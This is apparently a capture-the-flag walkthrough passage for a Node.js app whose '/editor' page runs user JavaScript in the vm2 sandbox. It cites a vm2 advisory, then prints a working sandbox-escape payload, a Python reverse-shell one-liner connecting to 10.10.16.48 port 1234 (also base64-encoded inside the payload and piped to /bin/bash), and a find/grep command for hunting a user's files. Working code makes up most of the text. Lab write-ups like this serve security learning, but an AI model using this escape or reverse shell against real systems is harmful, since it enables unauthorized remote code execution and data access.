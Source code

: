 The lirbary vm2 used as sandobox for node js contains some important vulnerbailities and its updates have been interrupted. It contains container escame RCE.

CVE: 
- https://github.com/advisories/GHSA-cchq-frgv-rjh5
- https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9

In the `/editor` section we can insert javascript that it is interpreted by the vm2.

rce:

base64 decoded python shell:


```bash
export RHOST="10.10.16.48";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```


```javascript
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('echo ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNi40OCI7ZXhwb3J0IFJQT1JUPTEyMzQ7cHl0aG9uMyAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJSSE9TVCIpLGludChvcy5nZXRlbnYoIlJQT1JUIikpKSk7W29zLmR1cDIocy5maWxlbm8oKSxmZCkgZm9yIGZkIGluICgwLDEsMildO3B0eS5zcGF3bigic2giKScK | base64 -d | /bin/bash'); }
            )
        }
    }
};
p.then();
```


Now we have 2 users shown in `/etc/passwd` called

- josuha 
- _laurel

By searching some information for the user joasua which contains the user flag we can maybe retrivie something. Let's run this one:

```bash
find / -iname '*.*' -exec grep -i joshua {} \; -print 2> /dev/null
```
